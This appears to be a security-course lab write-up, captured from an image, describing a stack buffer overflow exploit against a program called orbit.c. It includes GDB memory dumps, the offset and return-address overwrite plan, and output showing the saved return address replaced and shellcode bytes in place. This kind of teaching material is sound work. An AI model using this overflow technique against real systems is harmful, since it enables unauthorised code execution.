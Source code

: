 ## Magic Numbers
#### (How any relevant “magic numbers” were determined, usually with GDB)
We first determined the address of the ```buf``` (0xffffd598) and the address of rip of ```read_file``` (0xffffd62c).This was done by invoking GDB and setting a breakpoint at line 30.
```
(gdb) x/64x buf
0xffffd598:     0x00000020      0x00000006      0x00001000      0x00000000
0xffffd5a8:     0x00000000      0x0804904a      0x00000000      0x000003ed
0xffffd5b8:     0x000003ed      0x000003ed      0x000003ed      0xffffd79b
0xffffd5c8:     0x0fcbfbfd      0x00000064      0x00000000      0x00000000
0xffffd5d8:     0x00000000      0x00000000      0x00000000      0x00000001
0xffffd5e8:     0x00000000      0xffffd78b      0x00000002      0x00000000
0xffffd5f8:     0x00000000      0x00000000      0x00000000      0xffffdfe6
0xffffd608:     0xf7ffc540      0xf7ffc000      0x00000000      0x00000000
0xffffd618:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd628:     0xffffd638      0x0804939c      0x00000001      0x08049391
0xffffd638:     0xffffd6bc      0x0804956a      0x00000001      0xffffd6b4
0xffffd648:     0xffffd6bc      0x080510a1      0x00000000      0x00000000
0xffffd658:     0x08049548      0x08053fe8      0x00000000      0x00000000
0xffffd668:     0x00000000      0x08049097      0x08049391      0x00000001
0xffffd678:     0xffffd6b4      0x08049000      0x08050b19      0x00000000
0xffffd688:     0x00000000      0x00000000      0x00000000      0x0804906b

(gdb) i f
Stack level 0, frame at 0xffffd630:
 eip = 0x8049238 in read_file (orbit.c:30); saved eip = 0x804939c
 called by frame at 0xffffd640
 source language c.
 Arglist at 0xffffd628, args:
 Locals at 0xffffd628, Previous frame's sp is 0xffffd630
 Saved registers:
  ebp at 0xffffd628, eip at 0xffffd62c
```

## Exploit Structure
#### (A description of your exploit structure)
The exploit has three parts:
1. Write 148 dummy characters to overwrite ```buf```, compiler padding and the sfp of ```read_file```
2. Overwrite the rip of ```read_file``` with the address of the shellcode. Since we are putting our shellcode right after the rip, the address would be rip + 4 = 0xffffd62c + 4 = 0xffffd630
3. Finally, insert the shellcode right after the rip.
This causes the shellcode at 0xffffd630 to execute after the ```read_file``` function returns.

## Exploit GDB Output
#### (GDB output demonstrating the before/after of the exploit working)
When we ran GDB after inputting the malicious exploit string, we got the following output:
```
(gdb) x/64x buf
0xffffd598:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5a8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5b8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5c8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5d8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5e8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5f8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd608:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd618:     0x000000e0      0x41414141      0x41414141      0x41414141
0xffffd628:     0x41414141      0xffffd630      0xdb31c031      0xd231c931
```